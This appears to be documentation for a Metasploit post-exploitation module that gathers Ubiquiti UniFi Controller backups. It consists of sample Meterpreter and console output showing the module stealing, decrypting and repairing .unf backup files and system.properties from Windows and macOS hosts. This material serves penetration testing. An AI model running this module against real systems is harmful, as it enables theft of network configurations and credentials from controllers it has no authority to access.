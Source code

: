```
```

#### Details

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-OBKF2JFCDKL
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 3...
msf5 post(multi/gather/ubiquiti_unifi_backup) > loot

Loot
====

host           service  type                                      name                                                          content          info                                                   path
----           -------  ----                                      ----                                                          -------          ----                                                   ----
4.4.4.4                 ubiquiti.system.properties                C:\Users\Administrator\Ubiquiti UniFi\data\system.properties  text/plain                                                              /root/.msf4/loot/20190310155838_default_4.4.4.4_ubiquiti.system._035659.txt
4.4.4.4                 ubiquiti.unifi.backup                     5.10.19.unf                                                   application/zip  Ubiquiti Unifi Controller Encrypted Backup Zip         /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_024488.unf
4.4.4.4                 ubiquiti.unifi.backup_decrypted           5.10.19.unf.broken.zip                                        application/zip  Ubiquiti Unifi Controller Decrypted Broken Backup Zip  /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_661494.zip
4.4.4.4                 ubiquiti.unifi.backup_decrypted_repaired  5.10.19.unf.zip                                               application/zip  Ubiquiti Unifi Controller Backup Zip                   /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_212269.zip
```

### Ubiquiti Unifi Controller 5.10.20 on OSX 10.14.4

#### Module

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > rexploit
[*] Reloading module...

[+] Read UniFi Controller file /Users/unifi/Library/Application Support/Unifi/data/system.properties
[+] File /Users/unifi/Library/Application Support/UniFi/data/backup/5.10.20.unf saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_683102.unf
[+] File 5.10.20.unf DECRYPTED and saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_122303.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /Users/unifi/Library/Application Support/UniFi/data/backup/5.10.20.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190406110342_default_1.1.1.1_ubiquiti.unifi.b_728913.zip.
[*] Post module execution completed
```
